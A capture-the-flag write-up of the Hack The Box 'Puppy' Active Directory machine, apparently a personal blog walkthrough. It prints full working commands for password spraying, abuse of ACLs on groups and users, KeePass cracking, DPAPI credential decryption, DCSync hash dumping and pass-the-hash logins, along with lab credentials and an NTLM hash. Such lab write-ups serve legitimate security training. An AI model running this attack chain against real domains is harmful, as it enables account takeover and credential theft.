

üê∂ Puppy
Enumeration
üîç 1. Initial Enumeration ‚Äì Nmap
I started with a full TCP service and OS scan using Nmap:
nmap -A -Pn -p- puppy.htbKey ports identified:
- Kerberos (88), LDAP (389/3268), and SMB (445) — indicating a Windows Active Directory environment
- WinRM (5985) — later used for remote shell access
- NFS/RPC (2049, 111) and HTTPAPI (5985)
Nmap revealed the domain name: PUPPY.HTB, and the host is likely running Windows Server 2022.
üìÅ 2. SMB Share Enumeration with Valid Credentials
Given credentials:
levi.james : KingofAkron2025!I enumerated SMB shares with:
crackmapexec smb 10.10.11.70 -u 'levi.james' -p 'KingofAkron2025!' --sharesüîí Access to the DEV share was denied!
üë• 3. Domain User Enumeration
To identify other users in the environment, I ran:
crackmapexec smb 10.10.11.70 -u 'levi.james' -p 'KingofAkron2025!' --usersThis revealed several valid domain users, including:
adam.silversteph.cooperant.edwardsjamie.williamssteph.cooper_adm
I saved these usernames into a users.txt file for later spraying.
ü߆ 4. Active Directory Enumeration with BloodHound
To analyze Active Directory permissions and relationships, I used BloodHound with the following command:
bloodhound-python -dc DC.PUPPY.HTB -u 'levi.james' -p 'KingofAkron2025!' -d PUPPY.HTB -c All -o bloodhound_results.json -ns 10.10.11.70
To make import easier into BloodHound GUI, I zipped the output:
zip bloodhound.zip *.jsonüîé 5. BloodHound Analysis ‚Äî Graph Relationships
After importing the bloodhound_results.json files into BloodHound, I observed the following privilege relationships for the user levi.james@puppy.htb.
Key findings from the visual graph:
- Membership:
levi.jamesis a direct member of several groups includingHR@PUPPY.HTB - Privilege Escalation Opportunity: The
HR@PUPPY.HTBgroup has GenericWrite privilege over theDEVELOPERS@PUPPY.HTBgroup - Since
levi.jamesis a member ofHR@PUPPY.HTB, this grants the ability to modify membership of theDEVELOPERSgroup
üߨ 6. Group Membership Abuse via LDAP ‚Äî Adding to DEVELOPERS Group
I learned that levi.james had GenericWrite on the DEVELOPERS group.
To exploit this, I crafted an LDIF file to add levi.james to the group:
modify.ldif:
dn: CN=DEVELOPERS,DC=PUPPY,DC=HTB
changetype: modify
add: member
member: CN=Levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTBThen ran:
ldapmodify -x -H ldap://10.10.11.70 -D "levi.james@puppy.htb" -w 'KingofAkron2025!' -f modify.ldifThis successfully added levi.james to the DEVELOPERS group.
LFG, now we have read permission!
Let's see what's inside the DEV share:
smbclient -U 'puppy.htb/levi.james%KingofAkron2025!' //10.10.11.70/DEVI can see some suspicious files. Let's download them and hope they aren't viruses
recovery.kdbx is a KeePass database file likely contains stored credentials and it is encrypted
KeePass Database Exploitation
üîê 7. Cracking recovery.kdbx ‚Äî KeePass Database
Since it was a .kdbx file (KeePass v4 format), the usual keepass2john tool didn't work:
keepass2john recovery.kdbx > recovery.hash
# Output: File version '40000' is currently not supported!So I used an alternative tool: keepass4brute, which supports KeePass v4.
✅ Steps to crack:
wget https://github.com/r3nt0n/keepass4brute/raw/master/keepass4brute.sh
chmod +x keepass4brute.sh
sudo apt update && sudo apt install keepassxc # if you haven't installed this
./keepass4brute.sh recovery.kdbx /usr/share/wordlists/rockyou.txtAfter testing thousands of passwords, it eventually found the correct master password:

üß© 8. Accessing KeePass Database via GUI (KeePassXC)
Using the KeePassXC GUI, which provides a user-friendly interface to browse entries securely.
Steps:
- I launched KeePassXC on my Kali machine:
keepassxc - Opened the file:
recovery.kdbx - When prompted, I entered the cracked master password:
liverpool - Once unlocked, I browsed through the stored entries. The database contained several credentials — including usernames and passwords for domain accounts.
üîë 9. Extracted Credentials + Spray
From the KeePassXC GUI, I manually copied out the following recovered credentials:
JamieLove2025!Antman2025!Steve2025!ILY2025!HJKL2025!
I saved these into a text file (passwords_spray.txt) and used them to conduct a password spray across known domain users:
crackmapexec smb 10.10.11.70 -u users.txt -p password_spray.txt --continue-on-successPrivilege Escalation via ACL Abuse
üîé 10. BloodHound Analysis ‚Äî Escalation via adam.silver
To uncover further privilege relationships and escalation paths, I ran BloodHound as the newly discovered user:
bloodhound-python -u 'ant.edwards' -p 'Antman2025!' -d puppy.htb -dc DC.PUPPY.HTB -c All -ns 10.10.11.70 -o bloodhound_antThen zipped the results for GUI import:
zip bloodhound_ant.zip bloodhound_ant/*.jsonThe graph revealed a clear and exploitable escalation path:
ANT.EDWARDS@PUPPY.HTBis a member of theSENIOR DEVS@PUPPY.HTBgroup- This group has GenericAll rights over
ADAM.SILVER@PUPPY.HTB, which means full control — including the ability to reset the user's password - Furthermore,
adam.silverhas CanPSRemote rights onDC.PUPPY.HTB— the Domain Controller - This creates a direct escalation chain:
ant.edwards → GenericAll → adam.silver → CanPSRemote → Domain ControllerüéØ Game Plan
To exploit this path, I planned the following steps:
- Use
bloodyADto reset the password foradam.silver - Ensure the account is enabled
- Log in as
adam.silvervia WinRM - Use the access to run commands on the DC
✅ This is a textbook Privilege Escalation via ACL abuse + PSRemoting path.
Shell as adam.silver
üîß 11. ACL Abuse ‚Äì Resetting adam.silver Password
Using bloodyAD, I reset the password for adam.silver:
bloodyAD -u ant.edwards -p 'Antman2025!' -d puppy.htb --dc-ip 10.10.11.70 set password adam.silver 'P@ssword123'The password was successfully changed ✅.
üõë 12. Fixing STATUS_ACCOUNT_DISABLED
I attempted to login, but the account was disabled:
crackmapexec smb 10.10.11.70 -u 'adam.silver' -p 'P@ssword123' -d PUPPY.HTB
# Output: STATUS_ACCOUNT_DISABLEDTo fix this, I removed the ACCOUNTDISABLE flag using:
bloodyAD --host 10.10.11.70 -d puppy.htb -u ant.edwards -p 'Antman2025!' remove uac adam.silver -f ACCOUNTDISABLE✅ 13. Confirming Access with WinRM
After re-enabling the account, I confirmed that the credentials work and I had remote access:
crackmapexec winrm 10.10.11.70 -u 'adam.silver' -p 'P@ssword123' -d PUPPY.HTB
# Output: Pwn3d!Then spawned a remote shell:
evil-winrm -i 10.10.11.70 -u 'adam.silver' -p 'P@ssword123'üßæ 14. Reading the user.txt Flag
Once inside, I navigated to the desktop and grabbed the flag:
cd C:\Users\adam.silver\Desktop
type user.txt
Shell as steph.cooper + admin
üìà 15. Further BloodHound on adam.silver
To check for possible privilege escalation to Domain Admin, I ran BloodHound as adam.silver:
bloodhound-python -u 'adam.silver' -p 'P@ssword123' -d puppy.htb -dc DC.PUPPY.HTB -c All -ns 10.10.11.70 -o bloodhound_adamZipped the results:
zip bloodhound_adam.zip bloodhound_adam_*.jsonImported into BloodHound GUI, I searched for the shortest path to Domain Admin.

After uploading and analyzing the graph, I observed:
adam.silverhas CanPSRemote onDC.PUPPY.HTB— confirming remote PowerShell (WinRM) access to the Domain Controllersteph.cooperis a member ofACCOUNT OPERATORSsteph.cooper_admis a member of theADMINISTRATORSgroup- Most importantly,
steph.cooper_admhas GetChanges, GetChangesAll, and ReplicateDirectoryChanges rights on the domain — these permissions are required for a DCSync attack - Therefore, escalating to
steph.cooper_admis the final step toward dumping domain credentials
This sets the stage for domain takeover using secretsdump.py after retrieving the credentials for steph.cooper_adm.
üõ† 16. Gaining steph.cooper_adm Credentials (DPAPI Extraction)
*Evil-WinRM* PS C:\Backups> dir
Directory: C:\Backups
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 3/8/2025 8:22 AM 4639546 site-backup-2024-12-30.zipAfter downloading and extracting it locally, I found an interesting file:
nms-auth-config.xml.bakInside the file:
<bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
<bind-password>ChefSteph2025!</bind-password>üîì 17. Extracting DPAPI Secrets from steph.cooper
I used Evil-WinRM to connect as steph.cooper and enumerate the user's DPAPI-protected secrets.
- Identified the master key:
C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-...\
└── 556a2412-1275-4ccf-b721-e6a0b4f90407- Found a DPAPI credential blob:
C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\
└── C8D69EBE9A43E9DEBF6B5FBD48B521B9- Transferred both files using an Impacket SMB server, and decrypted them with:
# Decrypt masterkey
python3 dpapi.py masterkey -file 556a2412-... -password 'ChefSteph2025!' -sid S-1-5-21-...
# Decrypt credential
python3 dpapi.py credential -file C8D69EBE9... -key <decrypted_master_key>üîì 18. DCSync Attack ‚Äî Domain Takeover
After confirming the steph.cooper_adm credentials, I ran BloodHound again:
bloodhound-python -u 'steph.cooper_adm' -p 'FivethChipOnItsWay2025!' -d puppy.htb -dc DC.PUPPY.HTB -c All -ns 10.10.11.70 -o bloodhound_adminThe graph confirmed: ✅ steph.cooper_adm has DCSync privileges.
Using secretsdump.py, I executed the DCSync attack:
secretsdump.py 'PUPPY.HTB/steph.cooper_adm:FivethChipOnItsWay2025!'@10.10.11.70Successfully dumped domain hashes, including the Administrator NTLM hash:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb0edc15e49ceb4120c7bd7e6e65d75b:::⚡ 19. Final Pwn — Administrator Shell via WinRM
Logged in with the NT hash:
evil-winrm -i 10.10.11.70 -u 'Administrator' -H 'bb0edc15e49ceb4120c7bd7e6e65d75b'Boom — Admin shell acquired.
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txtüèÅ Rooted puppy.htb
üéØ Attack Chain Summary
This box demonstrated a complete Active Directory takeover through multiple privilege escalation vectors:
levi.james (HR Group)
→ GenericWrite on DEVELOPERS
→ Access DEV share
→ KeePass database
→ ant.edwards credentials
→ GenericAll on adam.silver
→ WinRM access
→ steph.cooper credentials
→ DPAPI extraction
→ steph.cooper_adm
→ DCSync privileges
→ Administrator hash
→ Domain AdminKey Techniques Demonstrated
- Active Directory Enumeration: Using BloodHound for privilege escalation path discovery
- Group Membership Manipulation: Exploiting GenericWrite permissions via LDAP
- KeePass Database Exploitation: Cracking v4 databases and extracting credentials
- ACL Abuse: Leveraging GenericAll permissions for password resets
- DPAPI Credential Extraction: Decrypting stored credentials from user profiles
- DCSync Attack: Domain takeover through replication rights abuse
Tools Used
- Nmap: Network reconnaissance and service enumeration
- CrackMapExec: SMB enumeration and credential validation
- BloodHound: Active Directory relationship analysis
- keepass4brute: KeePass v4 database cracking
- bloodyAD: Active Directory manipulation and ACL abuse
- dpapi.py: DPAPI credential extraction
- secretsdump.py: DCSync attack execution
- Evil-WinRM: Remote PowerShell access